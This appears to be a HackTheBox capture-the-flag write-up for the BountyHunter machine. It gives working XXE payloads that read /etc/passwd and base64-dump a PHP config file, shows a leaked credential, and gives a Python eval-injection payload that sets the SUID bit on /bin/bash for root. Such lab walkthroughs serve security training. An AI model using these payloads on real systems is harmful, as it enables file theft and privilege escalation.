

# HACKTHEBOX: BountyHunter

## Recon and Enumeration
Starting off with an nmap scan, we're find SSH and HTTP running on the box.


Explore the site, and you'll find a PHP form.


Since the site uses PHP, run a ffuf scan to search for PHP files. We find `index.php` (we've already found that), `portal.php` (we've found that too), and `db.php` (this is new!). Unfortunately, we can't actually view this php file via web browser.


If we go back to `portal.php` and submit the form, we find that the input is XML data.


Since the site accepts XML input, lets test for an XXE vulnerability using the following payload to retrieve `/etc/passwd`:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>alter_cwe</cwe>
        <cvss>alter_score</cvss>
        <reward>alter_reward</reward>
    </bugreport>
```
Sure enough, we get the contents of `/etc/passwd` and XXE is confirmed. Note that the user `development` has a home directory and uses bash.


## Exploitation and user.txt
We can exploit the XXE vulnerability to read the `db.php file`. After a quick google search on how to read PHP files via XXE, we can craft the following payload to get the base64 encoded content of `db.php`:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/conver.base64-encode/resource=db.php"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>alter_cwe</cwe>
        <cvss>alter_score</cvss>
        <reward>alter_reward</reward>
    </bugreport>
```


Doing so reveals the password `m19RoAU0hP41A1sTsq6K`. Use this password to log in as `development`


## Privilege Escalation and root.txt
List the commands the user is allowed to run as root with the command `sudo -l`. The user `development` may run the command `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` without a password.


View the contents of `/opt/skytrain_inc/ticketValidator.py` and find the path to privilege escalation. It accepts input of a file that needs to be formatted a very specific way. The code also calls the `eval` function, which accepts a string, which parsed and executed as a python expression. If we can manipulate `x.replace(**, "")`, then we will  be able to execute arbitrary python commands as root.


The following payload passes the input validation and injects `__import__('os').system('chmod +sx /bin/bash')`, which sets the suid bit, allowing us to run `/bin/bash` as root
```
# Skytrain Inc
## Ticket to hackthebox
__Ticket Code:__
**4+__import__('os').system('chmod +sx /bin/bash')
```

Run the python script, and execute `/bin/bash -p`

